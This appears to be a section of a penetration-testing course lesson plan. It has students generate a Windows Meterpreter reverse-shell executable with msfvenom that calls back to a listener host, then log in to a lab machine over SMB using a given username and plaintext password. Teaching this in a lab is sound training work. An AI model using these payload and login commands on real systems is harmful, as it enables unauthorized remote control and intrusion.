 ### 03. Class Do: Msfvenom Payloads (0:20)

We will now generate a custom payload with `msfvenom` and use it to gain a Meterpreter shell. 

- **Note:** Students should follow along with their own machine. They can follow along with the guide linked below: 

    - [Class Do: Custom Payload with Msfvenom](Activities/01_MSFVenom/README.md)

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](Images/msfvenom.PNG)

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type `smbclient //172.22.117.20/C$ -U megacorpone/tstark`.

    - This connects to the `C` drive on the remote machine as the user `tstark`. 

3. You will then be asked for a password. Input `tstark`'s password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    ![A screenshot depicts the results of the command.](Images/smbclient.PNG)
